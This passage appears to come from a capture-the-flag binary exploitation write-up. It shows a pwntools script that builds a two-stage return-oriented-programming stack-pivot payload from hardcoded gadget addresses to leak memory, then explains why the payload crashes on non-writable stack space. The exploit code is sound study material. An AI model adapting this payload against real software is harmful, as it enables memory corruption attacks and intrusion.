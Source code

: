 

The updated payload.

```python

landing_addr = 0x404038
print_addr   = 0x404010
print_call   = 0x401211
pop_rbp_ret  = 0x40115d
gets_call    = 0x401205


## Set rbp to 0x404058
first_stage_payload = flat({
    40:[
        pop_rbp_ret,
        landing_addr+0x20,
        gets_call
    ]
    })

io.sendline(first_stage_payload)

io.recv()


second_stage_payload = flat({
    0: [
        print_addr
        ],
    32:[
        print_addr+0x20,
        print_call,
        0x4141414141414141,
        0x4242424242424242
        ]
    })

io.sendline(second_stage_payload)


## get second output after gets called
print(io.recv())

print("second input out:")
leak = int.from_bytes(io.recv(), 'little')
info(hex(leak))
```

The problem with this payload is that internal calls within the print function attempt to write to lower addresses on the stack. The image below shows _IO_file_xsputn+0xa trying to push 0x404000. When this happens, it continuously goes to lower addresses, which are not writable. The writable area starts from 0x404000.
